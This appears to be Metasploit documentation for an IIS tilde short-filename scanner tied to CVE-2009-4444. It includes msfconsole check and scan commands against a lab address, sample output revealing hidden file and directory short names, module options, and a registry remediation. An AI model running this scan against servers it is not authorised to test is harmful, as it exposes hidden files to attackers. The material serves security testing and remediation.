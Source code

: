 
## Microsoft IIS shortname vulnerability scanner

The vulnerability is caused by a tilde character "~" in a GET or OPTIONS request, which could allow remote attackers to diclose 8.3 filenames (short names). This is a new technique for an existing bug (CVE-2009-4444), which relied on the use of the ;(semicolon) character. Soroush Dalili discovered the original bug, while the new ~ technique was discovered by Soroush Dalili and Ali Abbasnejad. 


## Vulnerable Application

Older Microsoft IIS installations are vulnerable with GET, newer installations with OPTIONS
  
  
## Verification Steps

  1. Install IIS (default installations are vulnerable)
  2. Start msfconsole
  3. Check:
  
  ```
  msf > use auxiliary/scanner/http/iis_shortname_scanner
  msf auxiliary(iis_shortname_scanner) > set 172.16.249.128
  msf auxiliary(iis_shortname_scanner) > check
  [+] 172.16.249.128:80 The target is vulnerable.
  ```

  4. Scan:
  
  ```
  msf auxiliary(iis_shortname_scanner) > run
  [*] Scanning in progress...
  [+] Directories found
  http://172.16.249.128/aspnet~1
  http://172.16.249.128/secret~1
  [+] Files found
  http://172.16.249.128/web~1.con
  http://172.16.249.128/index~1.htm
  http://172.16.249.128/upload~1.asp
  http://172.16.249.128/upload~2.asp
  [*] Auxiliary module execution completed
  ```

## Options

```
  Module options (auxiliary/scanner/http/iis_shortname_scanner):

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  PATH     /                yes       The base path to start scanning from
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOST                     yes       The target address
  RPORT    80               yes       The target port (TCP)
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  VHOST                     no        HTTP server virtual host
```

## Remediation

Create registry key NtfsDisable8dot3NameCreation at HKLM\SYSTEM\CurrentControlSet\Control\FileSystem, with a value of 1


## References

    CVE-2009-4444
    https://soroush.secproject.com/blog/tag/iis-tilde-vulnerability/
    https://support.detectify.com/customer/portal/articles/1711520-microsoft-iis-tilde-vulnerability

